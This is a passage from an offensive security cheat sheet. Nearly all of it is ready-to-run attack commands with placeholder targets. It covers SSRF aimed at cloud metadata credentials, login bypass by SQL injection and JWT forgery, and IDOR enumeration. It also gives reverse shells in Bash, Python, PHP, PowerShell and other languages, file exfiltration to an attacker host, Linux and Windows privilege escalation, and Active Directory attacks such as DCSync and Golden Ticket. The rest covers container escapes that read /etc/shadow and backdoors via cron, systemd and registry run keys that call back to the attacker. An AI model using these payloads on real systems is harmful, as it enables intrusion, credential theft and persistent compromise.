curl -s "https://TARGET/fetch?url=http://[::1]/"
curl -s "https://TARGET/fetch?url=http://localhost/"
curl -s "https://TARGET/fetch?url=http://127.0.0.1.nip.io/"
curl -s "https://TARGET/fetch?url=http://spoofed.burpcollaborator.net/"

# Cloud metadata endpoints
curl -s "https://TARGET/fetch?url=http://169.254.169.254/latest/meta-data/"                    # AWS
curl -s "https://TARGET/fetch?url=http://169.254.169.254/computeMetadata/v1/"                  # GCP
curl -s "https://TARGET/fetch?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01"  # Azure

# AWS IAM credentials via SSRF
curl -s "https://TARGET/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# Then: http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME

# Internal port scanning via SSRF
for port in 21 22 25 80 443 3306 5432 6379 8080 8443 9200 27017; do
  resp=$(curl -s -o /dev/null -w "%{http_code}:%{size_download}:%{time_total}" "https://TARGET/fetch?url=http://127.0.0.1:$port/")
  echo "Port $port: $resp"
done

# Protocol smuggling
curl -s "https://TARGET/fetch?url=gopher://127.0.0.1:6379/_*1%0d%0a\$8%0d%0aflushall%0d%0a"  # Redis
curl -s "https://TARGET/fetch?url=dict://127.0.0.1:6379/info"
curl -s "https://TARGET/fetch?url=file:///etc/passwd"

# DNS rebinding (use rebinder tool)
curl -s "https://TARGET/fetch?url=http://A.B.C.D.1time.169.254.169.254.forever.rebind.network/"

# Redirect-based SSRF bypass
# Host a redirect on LHOST that redirects to 169.254.169.254
curl -s "https://TARGET/fetch?url=http://LHOST/redirect"

# URL parser confusion
curl -s "https://TARGET/fetch?url=http://evil.com@169.254.169.254/"
curl -s "https://TARGET/fetch?url=http://169.254.169.254#@evil.com/"
curl -s "https://TARGET/fetch?url=http://169.254.169.254%00@evil.com/"
```

---

## 11. Authentication Bypass

```bash
# Default credentials test
for cred in "admin:admin" "admin:password" "admin:123456" "root:root" "root:toor" "test:test" "guest:guest"; do
  user=$(echo $cred | cut -d: -f1)
  pass=$(echo $cred | cut -d: -f2)
  code=$(curl -sk -o /dev/null -w "%{http_code}" -X POST "https://TARGET/login" -d "username=$user&password=$pass")
  echo "$cred -> HTTP $code"
done

# SQL injection auth bypass
for payload in "' OR 1=1--" "' OR '1'='1" "admin'--" "' OR 1=1#" "') OR ('1'='1" "admin' OR '1'='1'--"; do
  code=$(curl -sk -o /dev/null -w "%{http_code}" -X POST "https://TARGET/login" -d "username=$payload&password=x")
  echo "$payload -> HTTP $code"
done

# JWT None algorithm attack
python3 -c "import jwt; print(jwt.encode({'sub':'admin','role':'admin'}, '', algorithm='none'))"

# JWT weak secret brute force
hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt

# Password reset token prediction
for i in $(seq 1 100); do
  curl -s -X POST "https://TARGET/reset" -d "email=victim@email.com" -o /dev/null
done
# Check if tokens are sequential or predictable

# Rate limiting test on login
for i in $(seq 1 50); do
  code=$(curl -sk -o /dev/null -w "%{http_code}" -X POST "https://TARGET/login" -d "username=admin&password=wrong$i")
  echo "Attempt $i: $code"
done

# 2FA bypass - direct navigation
curl -s -H "Cookie: session=TOKEN" "https://TARGET/dashboard"

# 2FA bypass - remove parameter
curl -s -X POST "https://TARGET/verify-2fa" -H "Cookie: session=TOKEN" -d "code="

# OAuth redirect manipulation
curl -sI "https://TARGET/oauth/authorize?redirect_uri=https://evil.com/callback"

# SAML Response manipulation (if you can intercept)
# Decode SAML, modify assertions, re-encode and submit

# Password spray (slow to avoid lockout)
for user in $(cat users.txt); do
  code=$(curl -sk -o /dev/null -w "%{http_code}" -X POST "https://TARGET/login" -d "username=$user&password=Company2024!")
  echo "$user -> $code"
  sleep 2
done
```

---

## 12. IDOR & Access Control

```bash
# Sequential ID enumeration
for id in $(seq 1 100); do
  resp=$(curl -s -H "Cookie: session=TOKEN" "https://TARGET/api/users/$id" | head -c 100)
  echo "ID $id: $resp"
done

# UUID/GUID enumeration (from other endpoints)
curl -s -H "Cookie: session=TOKEN" "https://TARGET/api/users" | jq '.[].id'

# Access other users' data
# Get your own data first
curl -s -H "Cookie: session=TOKEN" "https://TARGET/api/profile"
# Change the ID
curl -s -H "Cookie: session=TOKEN" "https://TARGET/api/profile?user_id=OTHER_USER_ID"

# Horizontal privilege escalation
curl -s -H "Cookie: session=REGULAR_USER_TOKEN" "https://TARGET/api/admin/users"

# Vertical privilege escalation (change role)
curl -s -X PUT -H "Cookie: session=TOKEN" -H "Content-Type: application/json" \
  "https://TARGET/api/profile" -d '{"role":"admin"}'

# IDOR in file download
for i in $(seq 1 100); do
  code=$(curl -sk -o /dev/null -w "%{http_code}" -H "Cookie: session=TOKEN" "https://TARGET/api/files/$i/download")
  [ "$code" = "200" ] && echo "File $i: accessible"
done

# IDOR via parameter pollution
curl -s -H "Cookie: session=TOKEN" "https://TARGET/api/orders?user_id=1&user_id=2"

# Method-based access control bypass
curl -s -X POST -H "Cookie: session=TOKEN" "https://TARGET/api/admin/delete-user"  # Blocked as GET?
curl -s -X GET -H "Cookie: session=TOKEN" "https://TARGET/api/admin/delete-user"   # Try other methods

# Replace Cookie/Token with different user
curl -s -H "Authorization: Bearer OTHER_USER_JWT" "https://TARGET/api/profile"

# Insecure direct reference in GraphQL
curl -s -X POST -H "Content-Type: application/json" "https://TARGET/graphql" \
  -d '{"query":"{ user(id: \"OTHER_USER_ID\") { email, password, ssn }}"}'
```

---

## 13. API Testing

```bash
# API discovery
curl -s https://TARGET/swagger.json
curl -s https://TARGET/openapi.json
curl -s https://TARGET/api-docs
curl -s https://TARGET/swagger-ui.html
curl -s https://TARGET/v1/api-docs
curl -s https://TARGET/v2/api-docs
curl -s https://TARGET/.well-known/openid-configuration

# GraphQL introspection
curl -s -X POST -H "Content-Type: application/json" "https://TARGET/graphql" \
  -d '{"query":"{ __schema { types { name fields { name } } } }"}'

# REST API method enumeration
for method in GET POST PUT DELETE PATCH HEAD OPTIONS; do
  code=$(curl -sk -o /dev/null -w "%{http_code}" -X $method "https://TARGET/api/endpoint")
  [ "$code" != "405" ] && echo "$method -> $code"
done

# Mass assignment test
curl -s -X POST -H "Content-Type: application/json" -H "Cookie: session=TOKEN" \
  "https://TARGET/api/profile" -d '{"name":"test","role":"admin","isAdmin":true,"balance":999999}'

# Rate limiting test
for i in $(seq 1 100); do
  curl -s -o /dev/null -w "$i: %{http_code}\n" "https://TARGET/api/endpoint"
done

# JWT manipulation
# Decode
echo "JWT_TOKEN" | cut -d. -f2 | base64 -d 2>/dev/null | jq .

# API key in common locations
curl -s https://TARGET | grep -iE "api[_-]?key|apikey|api[_-]?secret|access[_-]?token|auth[_-]?token"
curl -s https://TARGET/config.json | grep -i key
curl -s https://TARGET/.env | grep -i key

# Test CORS
curl -sI -H "Origin: https://evil.com" https://TARGET/api/endpoint | grep -i "access-control"

# Content-Type manipulation
curl -s -X POST -H "Content-Type: application/xml" "https://TARGET/api/endpoint" \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>'

# API versioning bypass
for v in v1 v2 v3 v0 v1.0 v2.0; do
  code=$(curl -sk -o /dev/null -w "%{http_code}" "https://TARGET/api/$v/admin/users")
  [ "$code" != "404" ] && echo "$v -> $code"
done

# Batch request testing
curl -s -X POST -H "Content-Type: application/json" "https://TARGET/api/batch" \
  -d '[{"method":"GET","path":"/api/user/1"},{"method":"GET","path":"/api/user/2"},{"method":"GET","path":"/api/admin/config"}]'
```

---

## 14. Reverse Shells

### Bash
```bash
bash -i >& /dev/tcp/LHOST/LPORT 0>&1
bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'
0<&196;exec 196<>/dev/tcp/LHOST/LPORT; sh <&196 >&196 2>&196
```

### Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("LHOST",LPORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

### PHP
```bash
php -r '$sock=fsockopen("LHOST",LPORT);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("LHOST",LPORT);$proc=proc_open("/bin/sh -i",array(0=>$sock,1=>$sock,2=>$sock),$pipes);'
```

### Perl
```bash
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("LHOST",LPORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```bash
nc -e /bin/sh LHOST LPORT
nc -c /bin/sh LHOST LPORT
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f
```

### PowerShell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('LHOST',LPORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Base64 encoded (for avoiding detection)
powershell -e BASE64_ENCODED_PAYLOAD
```

### Node.js
```bash
node -e '(function(){var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(LPORT,"LHOST",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();'
```

### Socat
```bash
socat TCP4:LHOST:LPORT EXEC:/bin/bash

# Encrypted reverse shell
socat OPENSSL:LHOST:LPORT,verify=0 EXEC:/bin/bash
# Listener: socat OPENSSL-LISTEN:LPORT,cert=cert.pem,verify=0 -
```

### Upgrade to Interactive Shell
```bash
# Python PTY
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Then background with Ctrl+Z
stty raw -echo; fg
export TERM=xterm
stty rows ROWS cols COLS

# Script method
script -qc /bin/bash /dev/null

# Socat full TTY
socat file:`tty`,raw,echo=0 tcp-listen:LPORT
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:LHOST:LPORT

# rlwrap for line editing
rlwrap nc -nlvp LPORT
```

---

## 15. File Transfer

### Linux to Attacker
```bash
# HTTP server (on attacker)
python3 -m http.server 8000

# Download on target
wget http://LHOST:8000/file -O /tmp/file
curl http://LHOST:8000/file -o /tmp/file
fetch http://LHOST:8000/file  # FreeBSD

# Netcat transfer
# Attacker: nc -nlvp 4444 > received_file
# Target: nc LHOST 4444 < /etc/passwd

# Base64 encode/decode (no network transfer needed)
base64 -w0 /etc/passwd  # Copy output
echo "BASE64_STRING" | base64 -d > file  # Paste on other side

# SCP
scp file user@LHOST:/tmp/

# Bash /dev/tcp
cat /etc/passwd > /dev/tcp/LHOST/LPORT

# PHP download
php -r "file_put_contents('/tmp/file', file_get_contents('http://LHOST:8000/file'));"

# Python download
python3 -c "import urllib.request;urllib.request.urlretrieve('http://LHOST:8000/file','/tmp/file')"
```

### Windows Transfer
```powershell
# PowerShell download
Invoke-WebRequest -Uri http://LHOST:8000/file -OutFile C:\temp\file
(New-Object Net.WebClient).DownloadFile('http://LHOST:8000/file','C:\temp\file')
iwr http://LHOST:8000/file -OutFile C:\temp\file

# Certutil
certutil -urlcache -f http://LHOST:8000/file C:\temp\file

# Bitsadmin
bitsadmin /transfer job /download /priority high http://LHOST:8000/file C:\temp\file

# SMB share (on attacker: impacket-smbserver)
impacket-smbserver share /tmp -smb2support
# On target:
copy \\LHOST\share\file C:\temp\file

# FTP
# Attacker: python3 -m pyftpdlib -p 21 -w
# Target: ftp LHOST / get file
```

---

## 16. Linux Privilege Escalation

### Quick Wins
```bash
# Check sudo permissions
sudo -l

# SUID binaries
find / -perm -4000 -type f 2>/dev/null

# SGID binaries
find / -perm -2000 -type f 2>/dev/null

# Writable files owned by root
find / -writable -user root -type f 2>/dev/null | grep -v proc

# Capabilities
getcap -r / 2>/dev/null

# Cron jobs
cat /etc/crontab
ls -la /etc/cron.d/
crontab -l
ls -la /var/spool/cron/crontabs/

# World-writable directories
find / -type d -writable 2>/dev/null | grep -v proc

# World-writable files
find / -type f -writable 2>/dev/null | grep -v proc

# Check for docker group
id | grep docker

# Check for LXD group
id | grep lxd

# Kernel version
uname -a
cat /proc/version

# OS release
cat /etc/os-release
cat /etc/issue

# Network info
ip a
netstat -tulpn
ss -tulpn

# Running processes
ps auxww

# Installed packages
dpkg -l 2>/dev/null || rpm -qa 2>/dev/null

# Find passwords in files
grep -rn "password\|passwd\|pwd\|secret\|key\|token" /etc/ /opt/ /var/ /home/ 2>/dev/null | grep -v Binary

# SSH keys
find / -name "id_rsa" -o -name "id_dsa" -o -name "id_ecdsa" -o -name "id_ed25519" 2>/dev/null
find / -name "authorized_keys" 2>/dev/null

# History files
find / -name ".*history" -type f 2>/dev/null
cat /home/*/.bash_history 2>/dev/null

# Config files with passwords
find / -name "*.conf" -o -name "*.config" -o -name "*.cfg" -o -name "*.ini" 2>/dev/null | xargs grep -l "password\|passwd\|pwd" 2>/dev/null

# Database files
find / -name "*.db" -o -name "*.sqlite" -o -name "*.sqlite3" 2>/dev/null

# LinPEAS (automated)
curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | bash
```

### SUID Exploitation
```bash
# Find SUID binaries and check GTFOBins
find / -perm -4000 -type f 2>/dev/null | while read bin; do
  name=$(basename $bin)
  echo "=== $bin ==="
  # Check https://gtfobins.github.io/#+suid for each binary
done

# Common SUID exploits
# /usr/bin/find
find . -exec /bin/sh -p \;

# /usr/bin/vim
vim -c ':!/bin/sh'

# /usr/bin/nmap (old versions)
nmap --interactive
!sh

# /usr/bin/python3
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# /usr/bin/env
env /bin/sh -p

# /usr/bin/cp (copy /etc/passwd, add root user)
openssl passwd -1 -salt abc password123
echo 'hacker:HASH:0:0::/root:/bin/bash' >> /tmp/passwd
cp /tmp/passwd /etc/passwd
```

### Sudo Exploitation
```bash
# LD_PRELOAD (if env_keep)
cat > /tmp/shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
}
EOF
gcc -fPIC -shared -nostartfiles -o /tmp/shell.so /tmp/shell.c
sudo LD_PRELOAD=/tmp/shell.so ALLOWED_COMMAND

# sudo vim
sudo vim -c '!sh'

# sudo less
sudo less /etc/passwd
!/bin/sh

# sudo awk
sudo awk 'BEGIN {system("/bin/sh")}'

# sudo find
sudo find . -exec /bin/sh \;

# sudo nmap
sudo nmap --interactive
!sh

# sudo env
sudo env /bin/sh

# sudo python
sudo python3 -c 'import os; os.system("/bin/sh")'

# sudo perl
sudo perl -e 'exec "/bin/sh";'

# sudo ruby
sudo ruby -e 'exec "/bin/sh"'

# sudo man
sudo man man
!/bin/sh

# sudo docker
sudo docker run -it -v /:/mnt alpine chroot /mnt

# CVE-2021-3156 (sudo Baron Samedit)
sudoedit -s '\' `python3 -c 'print("A"*1000)'`
```

### Kernel Exploits
```bash
# Check kernel version
uname -r

# DirtyPipe (CVE-2022-0847) - Linux 5.8+
# DirtyCow (CVE-2016-5195) - Linux < 4.8.3
# PwnKit (CVE-2021-4034) - pkexec

# Compile and run
gcc -o exploit exploit.c
chmod +x exploit
./exploit
```

---

## 17. Windows Privilege Escalation

### Quick Enumeration
```powershell
# Current user and privileges
whoami /all
whoami /priv

# System info
systeminfo
hostname

# Network
ipconfig /all
netstat -an
route print

# Users and groups
net user
net localgroup administrators
net user USERNAME

# Running processes
tasklist /svc
wmic process list brief

# Installed software
wmic product get name,version
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall

# Scheduled tasks
schtasks /query /fo LIST /v

# Services
sc queryex type=service state=all
wmic service get name,displayname,pathname,startmode

# Unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows" | findstr /i /v """

# Weak service permissions
accesschk.exe -uwcqv "Everyone" * /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula

# AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Stored credentials
cmdkey /list
dir C:\Users\*\AppData\Local\Microsoft\Credentials\
dir C:\Users\*\AppData\Roaming\Microsoft\Credentials\

# SAM/SYSTEM files
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system
# Then: impacket-secretsdump -sam sam -system system LOCAL

# WiFi passwords
netsh wlan show profiles
netsh wlan show profile name="NETWORK" key=clear

# Search for passwords in files
findstr /si "password" *.txt *.ini *.config *.xml *.php
dir /s *password* == *pass* == *cred*

# PowerShell history
type %APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content (Get-PSReadlineOption).HistorySavePath

# WinPEAS (automated)
.\winpeas.exe
```

### Token Manipulation
```powershell
# SeImpersonatePrivilege -> SYSTEM
# PrintSpoofer
.\PrintSpoofer.exe -c "nc.exe LHOST LPORT -e cmd.exe"

# GodPotato
.\GodPotato.exe -cmd "nc.exe LHOST LPORT -e cmd.exe"

# JuicyPotato (older systems)
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe LHOST LPORT -e cmd.exe" -t *

# SweetPotato
.\SweetPotato.exe -a "nc.exe LHOST LPORT -e cmd.exe"
```

### Pass the Hash
```bash
# PsExec with hash
impacket-psexec -hashes :NTLM_HASH DOMAIN/USER@TARGET

# WMIExec
impacket-wmiexec -hashes :NTLM_HASH DOMAIN/USER@TARGET

# SMBExec
impacket-smbexec -hashes :NTLM_HASH DOMAIN/USER@TARGET

# Evil-WinRM
evil-winrm -i TARGET -u USER -H NTLM_HASH

# CrackMapExec
crackmapexec smb TARGET -u USER -H NTLM_HASH -x "whoami"
```

---

## 18. Active Directory

### Enumeration
```bash
# Domain info
crackmapexec smb TARGET -u USER -p PASS --shares
crackmapexec smb TARGET -u USER -p PASS --users
crackmapexec smb TARGET -u USER -p PASS --groups

# BloodHound collection
bloodhound-python -d DOMAIN -u USER -p PASS -c All -ns DC_IP

# LDAP enumeration
ldapsearch -x -H ldap://DC_IP -b "DC=domain,DC=com" "(objectclass=user)" sAMAccountName

# Enumerate SPNs (Kerberoasting targets)
impacket-GetUserSPNs DOMAIN/USER:PASS -dc-ip DC_IP -request

# AS-REP Roasting (no pre-auth users)
impacket-GetNPUsers DOMAIN/ -dc-ip DC_IP -usersfile users.txt -format hashcat

# Enum4linux
enum4linux -a TARGET

# SMB shares enumeration
smbclient -L //TARGET -U USER%PASS
smbmap -H TARGET -u USER -p PASS

# RPC enumeration
rpcclient -U USER%PASS TARGET -c "enumdomusers"
rpcclient -U USER%PASS TARGET -c "enumdomgroups"
```

### Attacks
```bash
# Kerberoasting
impacket-GetUserSPNs DOMAIN/USER:PASS -dc-ip DC_IP -request -outputfile kerb.txt
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt

# AS-REP Roasting
impacket-GetNPUsers DOMAIN/ -dc-ip DC_IP -usersfile users.txt -format hashcat -outputfile asrep.txt
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt

# DCSync attack
impacket-secretsdump DOMAIN/USER:PASS@DC_IP

# Pass the Ticket
export KRB5CCNAME=ticket.ccache
impacket-psexec DOMAIN/USER@TARGET -k -no-pass

# Golden Ticket
impacket-ticketer -nthash KRBTGT_HASH -domain-sid DOMAIN_SID -domain DOMAIN administrator
export KRB5CCNAME=administrator.ccache
impacket-psexec DOMAIN/administrator@TARGET -k -no-pass

# ZeroLogon (CVE-2020-1472)
impacket-zerologon DC_HOSTNAME DC_IP

# PrintNightmare (CVE-2021-34527)
impacket-rpcdump @DC_IP | grep -i "Print System"

# NTLM Relay
impacket-ntlmrelayx -tf targets.txt -smb2support

# Password spray
crackmapexec smb DC_IP -u users.txt -p 'Company2024!' --no-bruteforce

# Responder (LLMNR/NBT-NS poisoning)
responder -I eth0 -wdv
```

---

## 19. Lateral Movement & Pivoting

```bash
# SSH tunneling - Local port forward
ssh -L LOCAL_PORT:TARGET_INTERNAL:TARGET_PORT user@JUMP_HOST

# SSH tunneling - Dynamic SOCKS proxy
ssh -D 1080 user@JUMP_HOST
# Then: proxychains nmap -sT TARGET_INTERNAL

# SSH tunneling - Remote port forward
ssh -R REMOTE_PORT:localhost:LOCAL_PORT user@LHOST

# Chisel - SOCKS proxy
# Attacker: chisel server -p 8000 --reverse
# Target: chisel client LHOST:8000 R:socks

# Chisel - Port forward
# Attacker: chisel server -p 8000 --reverse
# Target: chisel client LHOST:8000 R:8888:INTERNAL_TARGET:80

# Ligolo-ng
# Proxy: ligolo-proxy -selfcert -laddr 0.0.0.0:11601
# Agent: ligolo-agent -connect LHOST:11601 -ignore-cert

# PsExec
impacket-psexec DOMAIN/USER:PASS@TARGET

# WinRM
evil-winrm -i TARGET -u USER -p PASS

# RDP
xfreerdp /v:TARGET /u:USER /p:PASS /dynamic-resolution

# WMI
impacket-wmiexec DOMAIN/USER:PASS@TARGET

# DCOM
impacket-dcomexec DOMAIN/USER:PASS@TARGET

# Netcat relay
# Machine A -> Machine B -> Machine C
# On Machine B: nc -nlvp 4444 | nc MACHINE_C 80

# Metasploit pivoting
# meterpreter> run autoroute -s INTERNAL_SUBNET/24
# meterpreter> portfwd add -l LOCAL_PORT -p TARGET_PORT -r TARGET_INTERNAL
```

---

## 20. Cloud (AWS/GCP/Azure)

### AWS
```bash
# Check for IMDSv1 (from EC2 instance)
curl -s http://169.254.169.254/latest/meta-data/
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Enumerate S3 buckets
aws s3 ls s3://BUCKET --no-sign-request
aws s3 cp s3://BUCKET/file . --no-sign-request

# Enumerate IAM
aws iam get-user
aws iam list-users
aws iam list-roles
aws iam list-attached-user-policies --user-name USER

# Check for privilege escalation paths
# https://github.com/RhinoSecurityLabs/pacu

# Enumerate EC2
aws ec2 describe-instances --region us-east-1

# Enumerate Lambda functions
aws lambda list-functions --region us-east-1

# Enumerate secrets
aws secretsmanager list-secrets --region us-east-1

# Enumerate SSM parameters
aws ssm describe-parameters --region us-east-1
aws ssm get-parameter --name "PARAM_NAME" --with-decryption --region us-east-1

# S3 bucket policy check
aws s3api get-bucket-policy --bucket BUCKET
aws s3api get-bucket-acl --bucket BUCKET

# CloudTrail check (is logging enabled?)
aws cloudtrail describe-trails

# Enumerate ECS/EKS
aws ecs list-clusters --region us-east-1
aws eks list-clusters --region us-east-1
```

### GCP
```bash
# Metadata endpoint
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token

# Enumerate projects
gcloud projects list

# Enumerate compute instances
gcloud compute instances list

# Enumerate storage buckets
gsutil ls

# Service account keys
gcloud iam service-accounts keys list --iam-account=SA_EMAIL

# Enumerate functions
gcloud functions list
```

### Azure
```bash
# Metadata endpoint
curl -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01"

# Get access token from IMDS
curl -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# Enumerate with az CLI
az account list
az vm list
az storage account list
az keyvault list
az webapp list

# Enumerate users
az ad user list --output table

# Check role assignments
az role assignment list --all
```

---

## 21. Container Escape (Docker/K8s)

### Docker
```bash
# Check if inside container
ls -la /.dockerenv
cat /proc/1/cgroup | grep docker

# Check for mounted Docker socket
ls -la /var/run/docker.sock

# Escape via Docker socket
docker -H unix:///var/run/docker.sock run -it -v /:/mnt alpine chroot /mnt

# Check capabilities
capsh --print

# Privileged container escape
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "#!/bin/sh" > /cmd
echo "cat /etc/shadow > /tmp/cgrp/output" >> /cmd
chmod a+x /cmd
echo "/cmd" > /tmp/cgrp/release_agent
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat /tmp/cgrp/output

# Check for sensitive mounts
mount | grep -E "docker|kube|secret|token"
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

### Kubernetes
```bash
# Check if inside pod
ls /var/run/secrets/kubernetes.io/serviceaccount/

# Read service account token
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Access Kubernetes API from pod
APISERVER=https://kubernetes.default.svc
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sk $APISERVER/api/v1/namespaces --header "Authorization: Bearer $TOKEN"

# List pods
curl -sk $APISERVER/api/v1/pods --header "Authorization: Bearer $TOKEN"

# List secrets
curl -sk $APISERVER/api/v1/secrets --header "Authorization: Bearer $TOKEN"

# Create privileged pod (if allowed)
cat <<EOF | curl -sk -X POST $APISERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --header "Content-Type: application/json" -d @-
{
  "apiVersion": "v1",
  "kind": "Pod",
  "metadata": {"name": "pwned"},
  "spec": {
    "containers": [{
      "name": "pwned",
      "image": "alpine",
      "command": ["/bin/sh","-c","sleep infinity"],
      "securityContext": {"privileged": true},
      "volumeMounts": [{"name": "host","mountPath": "/host"}]
    }],
    "volumes": [{"name": "host","hostPath": {"path": "/"}}]
  }
}
EOF

# kubectl from outside
kubectl --token=$TOKEN --server=$APISERVER --insecure-skip-tls-verify get pods -A
kubectl --token=$TOKEN --server=$APISERVER --insecure-skip-tls-verify get secrets -A
```

---

## 22. Password Cracking

```bash
# Hashcat - Common modes
hashcat -m 0 hashes.txt wordlist.txt      # MD5
hashcat -m 100 hashes.txt wordlist.txt    # SHA1
hashcat -m 1000 hashes.txt wordlist.txt   # NTLM
hashcat -m 1800 hashes.txt wordlist.txt   # sha512crypt
hashcat -m 3200 hashes.txt wordlist.txt   # bcrypt
hashcat -m 5600 hashes.txt wordlist.txt   # NetNTLMv2
hashcat -m 13100 hashes.txt wordlist.txt  # Kerberoast
hashcat -m 18200 hashes.txt wordlist.txt  # AS-REP Roast
hashcat -m 16500 hashes.txt wordlist.txt  # JWT

# Hashcat with rules
hashcat -m 1000 hashes.txt wordlist.txt -r /usr/share/hashcat/rules/best64.rule

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
john --show hashes.txt

# Identify hash type
hashid 'HASH_STRING'
hash-identifier

# Generate wordlist from website
cewl https://TARGET -d 3 -m 5 -w wordlist.txt

# Hydra brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt TARGET http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"
hydra -l admin -P /usr/share/wordlists/rockyou.txt TARGET ssh
hydra -l admin -P /usr/share/wordlists/rockyou.txt TARGET ftp
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt TARGET smb

# Medusa
medusa -h TARGET -u admin -P passwords.txt -M ssh

# Crack ZIP
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
zip2john file.zip > hash.txt && john hash.txt

# Crack PDF
pdf2john file.pdf > hash.txt && john hash.txt

# Crack RAR
rar2john file.rar > hash.txt && john hash.txt

# Crack SSH key
ssh2john id_rsa > hash.txt && john hash.txt

# Crack KeePass
keepass2john database.kdbx > hash.txt && john hash.txt

# Generate password mutations
hashcat --stdout -r /usr/share/hashcat/rules/best64.rule wordlist.txt > mutated.txt
```

---

## 23. Persistence & Backdoors

### Linux
```bash
# SSH key persistence
echo "ATTACKER_PUBLIC_KEY" >> /root/.ssh/authorized_keys
echo "ATTACKER_PUBLIC_KEY" >> /home/USER/.ssh/authorized_keys

# Cron job backdoor
echo "* * * * * root bash -i >& /dev/tcp/LHOST/LPORT 0>&1" >> /etc/crontab
(crontab -l; echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'") | crontab -

# SUID shell
cp /bin/bash /tmp/.hidden_shell
chmod u+s /tmp/.hidden_shell
# Execute: /tmp/.hidden_shell -p

# Bashrc persistence
echo 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1 &' >> /home/USER/.bashrc

# Systemd service
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=System Update Service
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF
systemctl enable backdoor && systemctl start backdoor
```

### Windows
```powershell
# Registry run key
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\path\to\payload.exe"

# Scheduled task
schtasks /create /tn "SystemUpdate" /tr "C:\path\to\payload.exe" /sc onlogon /ru SYSTEM

# Startup folder
copy payload.exe "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"

# WMI event subscription
